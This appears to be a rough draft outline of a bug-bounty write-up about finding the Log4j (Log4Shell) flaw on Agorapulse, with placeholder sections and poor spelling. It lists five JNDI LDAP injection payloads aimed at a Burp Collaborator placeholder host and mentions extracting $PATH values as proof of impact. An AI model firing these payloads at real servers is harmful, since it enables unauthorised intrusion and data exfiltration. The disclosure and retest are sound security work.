 ## What is Agorapulse

Write about what does agora pulse do and few line about their product.


## What is Log4j 
  - Explain What is Log4j and
  - How it stated and 
  - The amount of choas it had on the security industry

## How did we found log4 on Agora Pulse

- The app was pretty big, so we started to paste payloads on all the places, Plese we used an payload which completely hardful to cleint
- We use

  ${jndi:ldap://1.<Your-Burp-Collab-URL>/}
  ${jndi:ldap://2.<Your-Burp-Collab-URL>/}
  ${jndi:ldap://3.<Your-Burp-Collab-URL>/}
  ${jndi:ldap://4.<Your-Burp-Collab-URL>/}
  ${jndi:ldap://5.<Your-Burp-Collab-URL>/}
  
  Numeric indentifies 
  
  
## Demonistation of Impact
  - We go DNS pingback
  - We extracted $PATH varibles and and Stopped
  
  
## Response of Agora Team
  - Praise them and fast and quick response
  
## rececking
  - The Team asked to reacheck us and we confirmed it by trying few more bypassing adn we not able to bypass and hence we said it was fixed.
  
  
